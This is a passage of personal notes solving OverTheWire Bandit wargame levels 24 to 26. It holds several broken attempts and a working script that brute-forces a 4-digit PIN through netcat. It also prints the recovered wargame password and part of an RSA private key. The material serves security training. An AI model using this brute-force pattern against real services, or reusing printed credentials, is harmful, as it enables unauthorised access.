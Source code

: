 ## Level 24 -> 25

Attempts:

#! python3
import socket

connSock=socket(AF_INET, SOCK_STREAM)
connSock.connect(("127.0.0.1", 30002))
connSock.send(str.encode("UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"))


for pin in itertools.permutations(range(4)): 
    print("UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ", pin)



python3 interpreter
brute_force = lambda: [print("UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ " + str(number)) for number in range(10000)]
brute_force()

#! python3
import os
import sys

os.system("nc localhost 30002")



brute_force = lambda: [print("UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ " + str(number)) for number in range(10000)]
brute_force()

#### brute.py

brute_force = lambda: [print("UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ " + str(number)) for number in range(10000)]

brute_force()

    python3 ./brute.py | nc localhost 30002

Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

    ssh -p 2220  bandit25@bandit.labs.overthewire.org
    uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

## Level 25 -> 26

    echo $SHELL
    ls
    cat bandit26.sshkey

-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEApis2AuoooEqeYWamtwX2k5z9uU1Afl2F8VyXQqbv/LTrIwdW
pTfaeRHXzr0Y0a5Oe3GB/+W2+PReif+bPZlzTY1XFwpk+DiHk1kmL0moEW8HJuT9
/5XbnpjSzn0eEAfFax2OcopjrzVqdBJQerkj0puv3UXY07AskgkyD5XepwGAlJOG
xZsMq1oZqQ0W29aBtfykuGie2bxroRjuAPrYM4o3MMmtlNE5fC4G9Ihq0eq73MDi
1ze6d2jIGce873qxn308BA2qhRPJNEbnPev5gI+5tU+UxebW8KLbk0EhoXB953Ix
3lgOIrT9Y6skRjsMSFmC6WN/O7ovu8QzGqxdywIDAQABAoIBAAaXoETtVT9GtpHW
qLaKHgYtLEO1tOFOhInWyolyZgL4inuRRva3CIvVEWK6TcnDyIlNL4MfcerehwGi
il4fQFvLR7E6UFcopvhJiSJHIcvPQ9FfNFR3dYcNOQ/IFvE73bEqMwSISPwiel6w
e1DjF3C7jHaS1s9PJfWFN982aublL/yLbJP+ou3ifdljS7QzjWZA8NRiMwmBGPIh
Yq8weR3jIVQl3ndEYxO7Cr/wXXebZwlP6CPZb67rBy0jg+366mxQbDZIwZYEaUME
zY5izFclr/kKj4s7NTRkC76Yx+rTNP5+BX+JT+rgz5aoQq8ghMw43NYwxjXym/MX
c8X8g0ECgYEA1crBUAR1gSkM+5mGjjoFLJKrFP+IhUHFh25qGI4Dcxxh1f3M53le
wF1rkp5SJnHRFm9IW3gM1JoF0PQxI5aXHRGHphwPeKnsQ/xQBRWCeYpqTme9amJV
tD3aDHkpIhYxkNxqol5gDCAt6tdFSxqPaNfdfsfaAOXiKGrQESUjIBcCgYEAxvmI
2ROJsBXaiM4Iyg9hUpjZIn8TW2UlH76pojFG6/KBd1NcnW3fu0ZUU790wAu7QbbU